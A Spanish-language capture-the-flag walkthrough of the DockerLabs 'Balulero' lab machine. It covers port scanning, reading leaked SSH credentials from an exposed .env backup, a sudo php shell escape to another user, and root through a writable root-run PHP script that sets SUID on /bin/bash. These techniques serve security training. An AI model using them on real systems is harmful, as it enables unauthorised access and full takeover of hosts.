 ```yaml
---
icon: flag
---
```


# Balulero DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip balulero.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh balulero.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-31 09:51 EST
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fb:64:7a:a5:1f:d3:f2:73:9c:8d:54:8b:65:67:3b:11 (RSA)
|   256 47:e1:c1:f2:de:f5:80:0e:10:96:04:95:c2:80:8b:76 (ECDSA)
|_  256 b1:c6:a8:5e:40:e0:ef:92:b2:e8:6f:f3:ad:9e:41:5a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mi Landing Page - Ciberseguridad
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.46 seconds
```

Si entramos en la pagina vemos una pagina normal, pero si inspeccionamos el codigo podremos ver lo siguiente:

## Escalate user balu

```html
<script src="script.js"></script>
```

Si nos metemos dentro del `script.js` podremos ver lo siguiente:

```js
// Funcionalidad para ocultar/mostrar el header al hacer scroll y el secretito de la web
    console.log("Se ha prohibido el acceso al archivo .env, que es donde se guarda la password de backup, pero hay una copia llamada .env_de_baluchingon visible jiji")
    let lastScrollTop = 0;
    const header = document.querySelector('header');
    const delta = 5; // La cantidad mÃ­nima de scroll para ocultar el header
```

Vemos que nos comenta que hay una copia de seguridad en la siguiente ruta del siguiente archivo llamado `.env_de_baluchingon`.

```
URL = http://<IP>/.env_de_baluchingon
```

Si nos metemos veremos lo siguiente:

```
RECOVERY LOGIN

balu:balubalulerobalulei
```

Vemos lo que parece ser una credenciales, por lo que nos conectaremos mediante `ssh`.

### SSH

```shell
ssh balu@<IP>
```

Metemos como contraseña `balubalulerobalulei` y veremos que estamos dentro.

## Escalate user chocolate

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for balu on 594b36b05c3c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User balu may run the following commands on 594b36b05c3c:
    (chocolate) NOPASSWD: /usr/bin/php
```

Vemos que podemos ejecutar el binario `php` como el usuario `chocolate`, por lo que haremos lo siguiente:

```shell
CMD="/bin/bash"
sudo -u chocolate php -r "system('$CMD');"
```

Y con esto seremos el usuario `chocolate`.

## Escalate Privileges

Si analizamos los procesos del sistema, veremos lo siguiente:

```shell
ps -aux
```

Info:

```
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2616  1548 ?        Ss   14:51   0:00 /bin/sh -c service apache2 start && a2ensite 000-default.conf && service ssh start && while true; do php /opt/script.php; sleep 5; done
root          25  0.0  0.5 201396 22820 ?        Ss   14:51   0:00 /usr/sbin/apache2 -k start
www-data      30  0.0  0.2 201716 12728 ?        S    14:51   0:00 /usr/sbin/apache2 -k start
www-data      31  0.0  0.2 201716 12656 ?        S    14:51   0:00 /usr/sbin/apache2 -k start
www-data      33  0.0  0.2 201708 12592 ?        S    14:51   0:00 /usr/sbin/apache2 -k start
www-data      34  0.0  0.2 201852 12720 ?        S    14:51   0:00 /usr/sbin/apache2 -k start
root          49  0.0  0.0  12196  4148 ?        Ss   14:51   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
www-data      77  0.0  0.2 201676 11920 ?        S    14:52   0:00 /usr/sbin/apache2 -k start
www-data      78  0.0  0.2 201676 11884 ?        S    14:52   0:00 /usr/sbin/apache2 -k start
www-data      80  0.0  0.2 201700 12620 ?        S    14:52   0:00 /usr/sbin/apache2 -k start
www-data      81  0.0  0.2 201660 11884 ?        S    14:52   0:00 /usr/sbin/apache2 -k start
www-data      82  0.0  0.2 201660 11884 ?        S    14:52   0:00 /usr/sbin/apache2 -k start
www-data      83  0.0  0.2 201660 11920 ?        S    14:52   0:00 /usr/sbin/apache2 -k start
root         202  0.0  0.1  13164  8388 ?        Ss   14:56   0:00 sshd: balu [priv]
balu         215  0.0  0.1  13404  6144 ?        S    14:56   0:00 sshd: balu@pts/0
balu         216  0.0  0.0   6000  3872 pts/0    Ss   14:56   0:00 -bash
root         258  0.0  0.1   7496  4308 pts/0    S    14:58   0:00 sudo -u chocolate php -r system('/bin/bash');
chocola+     259  0.0  0.4  67256 20356 pts/0    S    14:58   0:00 php -r system('/bin/bash');
chocola+     260  0.0  0.0   2616  1484 pts/0    S    14:58   0:00 sh -c /bin/bash
chocola+     261  0.0  0.0   6000  3772 pts/0    S    14:58   0:00 /bin/bash
root         290  0.0  0.0   2516  1276 ?        S    14:59   0:00 sleep 5
chocola+     291  0.0  0.0   7892  3520 pts/0    R+   14:59   0:00 ps -aux
```

Vemos que `root` esta ejecutando la siguiente linea:

```
 do php /opt/script.php; sleep 5; done
```

Por lo que vemos esta ejecutando un `script.php` en la carpeta `/opt`.

```shell
ls -la /opt/script.php
```

Info:

```
-rw-r--r-- 1 chocolate chocolate   59 May  7  2024 script.php
```

Vemos que podremos editarlo, por lo que haremos lo siguiente:

> script.php

```php
<?php
// Ejecuta el comando
$output = shell_exec('chmod u+s /bin/bash 2>&1');

// Muestra el resultado
if ($output === null) {
    echo "Permisos modificados correctamente.\n";
} else {
    echo "Error: " . $output . "\n";
}
?>
```

```shell
echo '<?php echo shell_exec("chmod u+s /bin/bash 2>&1") ?? "Permisos modificados correctamente.\n"; ?>' > /opt/script.php
```

Lo guardamos y esperamos unos `5` segundos para que se ejecute, cuando se ejecute veremos si ha funcionado.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Vemos que ha funcionado ya que ahora la `bash` tiene el `SUID` establecido, por lo que haremos lo siguiente:

```shell
bash -p
```

Info:

```
bash-5.0# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
